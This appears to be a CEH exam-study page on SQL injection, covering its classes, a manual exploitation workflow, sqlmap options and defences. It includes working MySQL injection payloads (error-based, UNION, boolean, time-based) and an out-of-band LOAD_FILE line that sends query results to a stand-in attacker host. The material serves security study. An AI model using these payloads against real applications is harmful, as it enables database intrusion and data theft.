

repository: morandeirachema/CyberCerts · page: certs/ceh/modules/15-sql-injection/index.html · generator: mkdocs

# Module 15 — SQL Injection

> **One-liner:** the classic "untrusted input reaches the SQL interpreter" flaw — how to find it, how to exploit it by hand and with sqlmap, and why the fix is *parameterized queries + a least-privilege DB account*. For a PAM reader this is a story about a service account with far too much power on the database.

> **📖 Concept page:** [domains/15-sql-injection.md](../../domains/15-sql-injection.md) — the source-grounded overview with Mermaid flows and countermeasures.

> **📚 Study companions:** [Facts sheet](facts.md) · [Practice questions](practice-questions.md) · [Flashcards (Anki)](flashcards.csv) · [Lab walkthrough](lab-walkthrough.md)

## Exam focus

- The **SQLi taxonomy**: in-band (error-based, UNION-based), inferential/**blind** (boolean-based, time-based), and **out-of-band** (OOB) — and how to tell them apart.
- **Where injection lives**: any input that is concatenated into a query — GET/POST params, cookies, HTTP headers (`User-Agent`, `Referer`), and stored values.
- The **manual workflow**: detect → determine column count → find injectable columns → enumerate schema (`information_schema`) → extract data.
- **Second-order (stored) SQLi** — input is saved safely, then reused unsafely in a later query.
- **sqlmap** switches by purpose (`--dbs`, `-D/-T/-C`, `--dump`, `--technique`, `--level/--risk`, `-r`, `--os-shell`).
- **Defenses in priority order**: parameterized queries/prepared statements first, then least-privilege DB accounts, input validation, WAF, and stored procedures (with caveats).
- Database fingerprint tells: `@@version`/`WAITFOR` (MSSQL), `version()`/`SLEEP` (MySQL), `UTL_HTTP`/`dual` (Oracle), `pg_sleep` (PostgreSQL).

## Key concepts

### SQLi taxonomy (the table the exam builds questions from)

| Class | Sub-type | How the data comes back | Signature payload (MySQL) |
|---|---|---|---|
| In-band | Error-based | DB error text leaks data | `' AND extractvalue(1,concat(0x7e,version())) -- -` |
| In-band | UNION-based | Appended `UNION SELECT` row | `' UNION SELECT 1,version() -- -` |
| Inferential (blind) | Boolean-based | Page changes true vs. false | `' AND 1=1 -- -` vs `' AND 1=2 -- -` |
| Inferential (blind) | Time-based | Response delay = true | `' AND SLEEP(5) -- -` |
| Out-of-band (OOB) | DNS/HTTP exfil | Separate channel (DNS/HTTP) | `... LOAD_FILE(CONCAT('\\\\',(SELECT ...),'.attacker'))` |

- **In-band** = data returns on the *same* channel/response (fastest, noisiest).
- **Blind** = no data in the response; you infer it one bit at a time (true/false page or a delay). Slow — automate it.
- **OOB** = used when the app is blind *and* you can make the DB open a new connection (DNS/HTTP). Depends on DB features and egress (`xp_dirtree`/`UTL_HTTP`/`LOAD_FILE` UNC).

### The manual exploitation workflow

```mermaid
flowchart LR
    A["1. Detect<br/>a quote breaks the query"] --> B["2. Count columns<br/>ORDER BY n"] --> C["3. Find visible UNION columns"] --> D["4. Enumerate schema<br/>information_schema"] --> E["5. Extract the data"]
```

1. **Detect** — inject `'`, `"`, `\`; watch for an error or changed behaviour. Confirm with `' OR '1'='1` and boolean pairs.
2. **Count columns** — `... ORDER BY 1 -- -`, increment until it errors; the last working number = column count. (Or step a `UNION SELECT 1,2,3` until no error.)
3. **Find the reflected columns** — `... UNION SELECT 1,2,3 -- -` and see which numbers render on the page.
4. **Enumerate** — swap a visible column for `version()`, `database()`, `current_user()`, then query `information_schema.tables` / `information_schema.columns`.
5. **Extract** — pull the target rows (e.g., `username,password` from `users`).
